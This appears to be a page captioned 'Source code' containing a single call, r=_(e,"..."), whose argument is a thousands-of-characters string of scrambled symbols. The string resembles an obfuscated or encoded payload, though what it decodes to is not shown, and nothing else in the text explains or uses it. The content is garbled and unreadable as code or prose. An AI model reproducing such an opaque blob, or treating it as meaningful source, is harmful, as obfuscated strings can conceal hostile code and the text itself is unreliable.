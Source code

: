 r=_(e,"*ut>{OEs#p}&_xKFY>tK_OO_F>pstu&#{F>{K_##u{}#{tx>E#utpK>&xuExptt#&FE/Kx#{u&Fp}KO{_}s>us&t>__xEEp#>{_EOxF{xXp{t&&FOpsKu#}_{>x}xXs{8}>Ex{E{F&ptsOtp&pE<KE#Kt_{}>}s#fF}EsK{exsttutpF>_xSuOlt#{tE_E{pKu#tutE{{{KEEKDx}}KK_Fsu7EpKKu&FOKF}>xts&FOuKOsOuOOK>sKOt>KK}gt}_#uxV3{{t#&>OtK_#}tt}}>xxFEFu>Opxp&hE_FxppKt&xOpF}#ut{&K{s}#s#aFEK>q_>>p_xp>+F&ss8KOpt&KO>KK#uu#}F}F{&x}s}}t{uxPEsFKF##x>s&FO#FsputF{xFus&ut}p>WsE0Ip>&_ss>>_tEOFKp{tu_sK&#}up&m{s{{K}s}BE}K>}xsExpE>u_{O&Ftx_#utx&>KO#Bu>}}{u>&x{EFfp>{{{EtFppP#F>t_pO_FEO{Kfss{>xF#g7s}}{{_xtKF}px>t#&O{F}#}Ks_E{&xFs_u}&u{{K>>E_FEs<>p&t}_{OFF>#xtt&&O>K}sKu#}K>FxxExQtpxOu_xptFF}_E_xtEK92}#O{KussFOsstKKE{}uEEs7u_EO>+uO&>s_Fu&xrE}DQs}uu}}OOuEpe{ux}O&F:sKu{&tOxF{pEYs_>OFKKs&t>px>Fx#{YFusKFF_}{XF}OF9sp_>x#Et>&{{&KtKx#pus}>{{xt/>}u>u_#OF>&F&#st>&>OsF{us&p{Ox_s>OEukp&>Rxt{x4b#_>&&KEt#stt&O{_K>&x#ju}}{xEs#N{p&>tuux{E&FKs#tu_OE/K}s&u{{EK{s{3&}tsK>K_#E%quputsO}Fx##uF&E&OO>K}sxlF&O{OxuspvO}t>#EurO#FtE&x}{OsK>ptuO&p>ux#sK0_}}{Ox&FFp&tx_{O&OpKKp{uK&uKO#Du>}}{utOx#spf.>{_KEtFppUE_tO&_K_puu}&u{#{{KKsru/&L{OxtsEF_s}t}xtO#FEtu_t{FKEsxO_u}&#>KKtEp0xpE>K_sF}pOt#&FOEO{KO##us{pF>sseK}O#_{OxpE{Fx}t>psx{{FIp:ux&pOOKO>OF>p#t>suurpF>E_x}#E{F>pEtF_OOtF#u_&F{}Kus#EEAs}E{#&usuc&s>tF_sEuFTt>_>OuK#sFOFu&&}{TK1sxNF}p{sEOFKp>t}_u_uO>#Ett&{{&Kt&&sFuE&t>xE_H}p}>u_#xEO&KF#_t}_uO{#)tE}K{Ox_&sEFu{p&>{x{EuFOpp>Ep}O{K&#>up{_K&s}uu}#}>>&xts{xK}u>pxpFsputO&_O>>}KE#_}F{}xxs{4&FtpK{{x}FKpst__>O}EuF_uF&_{xK{s&#sus&5>#xuslp_>}_}EuF#xEpOtp&#O-F+>p&eEKxKsOH_Fs}t>}x&uFF_pE>6_rut,L#ut}EKOOKK#tuK}E>&K>E&!uO{{t_&ExF#{sn&_{O&FuExuE}&FF__{Q}{O#xtEpPSFF}t>p__EE_{OLKs&>{FF ssu}&{>xpKEKTOE{tE&ptF_>#pjO}xEEx&##&tEuKjsslKK_}u{s&}s>hspFt&_FE#U{EOtu&uOOKOs}umpE{>x#sE65}t_xEFF&pttpt_&_{FKp#utO&xOOxp#>up>xx}E&Wtpppp>s&FOKFKpE&}OFK#sFuEtI}s{xx&spu{s_{E_}OFf#pKtE&_KFp_ux&{{&tFx}spu>}9{{K{OEFFpFt_xt{pFEptuK&s>&KO#}u>&pxxs{Y}}u>#_FEEFx}Ot&_tOp>_FE#ut^&OOuKusgF&}{{}&ps>FKpxtK_{Fsp.tO&_O>{p_#u#&{{Exxs{s&I>}t{tx}4upOt__>O}Fu##uFFE{xKps&ut}p}{>_x1s}V>>>xEEuF##FEFt&_}O}KxsK1>}_OlK&suuO>}x&E#FFpE}{t_&_EEK}#>uF&>{}FEu>&u{ux#EFOpW+}E>{xtExi>ts_{OOK_#>Oxux&u{{K{#u}{{#xtEp;eFE}#>txtEOK{#>Fp_E>Mx_OFF#{tKOsy+spK}#>uxsOxFxputF&#O_KO#xuE{pFpss(K}O#p{txpEFK&p{tp&_{sFFp{tt&K{KFuOxuO}s>KxEsEK<}}{uxEF&p}tp_2Os>tKK#Fu{}_{xxxs>}E{Ex{E&otKpp_t#xsO}FKE}tF&}K##uuE}x{{{Kx}gp}>>s_KEO{>F#pK_{O#KF#Eux&{{&xt&#uH}}>KxOE_s#+>pO_#EOFE#xt{?K&}OtKKpB_K{OK{s>Q}}u#x>&x}EEVu#_>E&KF6#}uK&O{_{tx&sK}#{ExEEx9{P#p&>s&FEpKFpO&_O}K}#uu#F_}&O)KsE_+ppKx3stFKpOt_;s&&E}K&#8t#&ttsK#sEu_{UxxEK0Op_p_>#x{OxJup}&xO&K&#tupFK}_OtK_s&uO}OxuEpFFpEtx>tO&F}#ptP&s}k{EKO#uR_&1{F#F^E}>>{_&EtO}FxpE>>_>En#>tu&u{#xF&ps_ut}p>s__s{ps>s_OO_F>xFp{ux_uO{xK#uu4s{xpsEPspK>Ou_xtEKF}pstxOEFk#{u&&t&&{uKsfK}}>_x>E}s{)#pS>x_&F{pttt&pOXOpK>#Etu}_{_xEv#}{>E_xE{OuF>pO>O&_Fu#Ou_&>{}Kus#6F}E>xxKE&ktpp#{F&&ttpx_OsRK#tu}&tuE&u{{x&stsEVu}&>EEO7up>t}_up&O&Ks#Etu{&KEspuM}s}_>ExpE#p}{O_#OFFExtp_uK&KOKF>#dt{}}tPx{#> {pp{u_&{<7u#F>OOpF##suK&O#FO#K_#><x}x>pKE,sp&>t_pEbFsuEF#F_O>F>#uu#}F#}{EKEs<rO}x>FxpsspO>>_>O}Fux##&us_E{pKx#O}p{FxsEKSOX>p}K}p^u#Kps_Ft#E{__#sjtppK{&sOuu}>>}xux_EzF#pptpO&FE#ptM&s_uO{KK#s}}{Kx#EFMEK}pO>{_KO&FFpFF#sO>FK###uO{&xFsEjx}{&&OEps{ups>t_OO_F>FtpEuF&{KE#Ku{}&{tt&xOss!}pKtF_{EKFE#_ut_}O_FEs_up}KKcs_CK}O>_uExtEtw}p__pOxF{#&tt&pOrxF&xuO&{{>x}suOxutp&>FxtO_FF#K_cy_KF#Ou_&>_EKus#RF}s>xx{E&u{p&>)_sOK>O#_t>&}E>FssFuE}x#tx&stWp_E{K_KEOF_ppt}_tO#u&#Etu__{&KtspuE}s>FxOE_}Ep}>u_#EVFE#xt{_xx{Kp#!usKp{Ox_s>u_&t>#_FEEEpp{t&_tE&F_#suK&O}EK>s}uu&}{sxEExT{KK>t_pEvbp}stO&_O>Fp#uu#}FO#Kos{l&}tOxx EsFK}s>#_>O}FuKFuF&E{xFEpjut}p{PtuEK-Op_{O>tEuF##F{>&xO{K&}tt=&R{sxKsOA_}E>}K>suFFp#txtxO&Ft#ptS&K{KKOs_uO}}{>x##Ft4px>{_&EtFp&XtsxrEKK_#Ou}FF{#xFsE/x}x>&xtEpvtps>2_OEKp}#}tt&#}EKEsxu{&xO#xpstds&&>O__E>u}{Et#_uOEKF#{#{&tEpFOssuT}O>Kx>sr<up#{E_EOKF{#xtt&&OB3spuuO}K{>x&suuOpFOExEE{Fxptt&_wp&KK#Ots&>{_KuspaF}#>xF{sHVtp&>D_pOKuE#_{>E{OuK&sFus}xOux&ptt{}3>}_KE#F_xst}_uOKKF#pux&O{&K{sp>Wt#>Kx#E_XEp}E>_#su8K#xt#&&EFKp#Cus_KEux_sso}}O>#>uEEuxp&t&_EOpF{#s>j&OOKKss}uE}#}txEExP{}x{p_pEEFs}&tO&_O>2}>pu#&O{EK>s{cK}t{&K_EsWEpO{r_>O}Fu##t{&EO>K{#>ut}&{zxss_-O}>>>_}EuF##F>#_&O{F>#tst&-{sxKsOt#}>{>xuE#FFpEtxxEs#Ftp>t3Kx{KKOs_tO>#{uK>EF>_px>{_&#t>upU>t&KE9K_&{u}&sOKxF#uXxxs>&x>Ep1ups>txxO_F>#}O{&#OSKEsx{x}&{xxpsWmspK>Ox_KEF}p&t#FcOEF##{ux{K{pK}ssu#}O>_x>s_>{p#>}_Ep>F{#&ttxpOEKs#puO&s{>j&suhK&E>Ex#E{>Optt}_ROsKK#p>{&>{}Ku&tZF}s>xx{eK5tpp>D_#OKFO#_>O{#OuF>sF{_}x{{x&}t_E}X{t_KpEF__Et}x>EFKFpuuxu{{&Ktsp>E_>>Kx#E_{>p}>t_#&#FEpu>_&&OtKp_/us}F{OKj#&/}}u>#uOEEFKp{>xO0OpF_#ssp&O{_K>p}Op}#{&xEsp;{}p>txpE#Fsp&tOtsO>Kx#uu#&E{EK}s{uE}t{ExYEsu&pO>#_>O_Fu#}uF&EE#K{#Eut&O{zxsEKusuK>>xEEu>x#FtE&xEE&t#ttE&QsKxKsO<_}>>FxusEFF}jtx_{O&Ft#&tz_O{KKEs_uO}}EuFtEFu{px{t_&#>Fp&St_&KE>K_puu}u({#xF##gx&u>&x{Ep+Fps>tKuO_F>#}sO&#O1KEpx_t}&O{xp#u%s_0>OFt}KF}}>t#uuOEKK#{>}&t{xF#ssSK}O#Kx>E&iup_{s_EOxF{xFtt&}O-Cst_uO&#{>K&suOupF>}KOE{F&ptsF_